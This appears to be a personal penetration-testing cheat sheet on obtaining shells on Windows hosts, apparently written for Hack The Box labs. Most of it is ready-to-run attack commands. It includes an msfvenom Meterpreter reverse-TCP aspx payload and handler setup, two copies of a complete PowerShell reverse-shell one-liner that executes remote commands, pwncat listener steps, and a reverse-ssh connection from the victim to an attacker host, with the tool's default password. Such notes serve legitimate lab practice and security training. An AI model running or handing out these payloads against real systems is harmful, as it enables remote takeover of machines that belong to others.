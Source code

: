 # Shells

## Normal Shells

{% embed url="https://book.hacktricks.xyz/shells/shells/windows" %}

### Meterpreter

First, generate the file which, when executed, starts a reverse shell on the targeted host. Here's an example of an aspx shell:&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.73" LPORT=4444 -f aspx -o reverse.aspx
```

Then, in your attacker machine, run Metasploit and start a handler:

```
msfconsole 
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set LPORT 4444 
set LHOST 10.10.14.73 
run
```

Replace the port and IP address with your own ones, of course.

### Interactive Powershell Reverse Shell

Caveat: **stderr doesn't work!**

```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('IP_ADDRESS_HERE', PORT_NUMBER_HERE);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Full TTY Shells

{% embed url="https://book.hacktricks.xyz/shells/shells/full-ttys#full-tty" %}

### Pwncat

Caveat: I've tested it on 2 Windows boxes in HTB, and it **didn't work in either one**.&#x20;

Probably a good idea to switch to bash if using ZSH:&#x20;

```
exec bash --login
```

If your target machine doesn't have internet access, then you'll need to download the plugins first:&#x20;

```
pwncat --download-plugins
```

Listen on port 4444:&#x20;

```
pwncat -m windows -lp 4444
```

Then connect to the pwncat with either a powershell.exe or cmd.exe reverse shell:&#x20;

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.17',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Reverse SSH Shell

{% embed url="https://github.com/Fahrj/reverse-ssh" %}

Features:

* Full TTY shell
* File sharing via SFTP
* Port forwarding

[Requirements](https://github.com/Fahrj/reverse-ssh#requirements):

* At least Windows 7  or Windows server 2008 (Windows 10 for conpty, need workaround for lower windows versions for full TTY functionality)
* Linux kernel version 2.6.23 and higher

Caveats:

* SCP doesn't seem to work
* SSH port forwarding doesn't seem to work
* It hangs sometimes

Evades antivirus: Don't know

First run this on your machine:

```
./reverse-ssh -v -l :4444
```

Then the following on the victim machine (you can use the upx packed executable, use ssh-shellhost on older machines):

```
.\upx_reverse-sshx86.exe -p 4444 kali@ATTACKER_IP
```

And finally on your machine:

```
ssh -p 8888 127.0.0.1
```

The default password is **letmeinbrudipls**

NB! If the target doesn't have conpty (pre-windows 10, build 17763), then you need the following workaround:

{% embed url="https://book.hacktricks.xyz/shells/shells/full-ttys#full-tty" %}

[\
](https://book.hacktricks.xyz/shells/shells/windowshttps://book.hacktricks.xyz/shells/shells/full-ttys#full-tty)
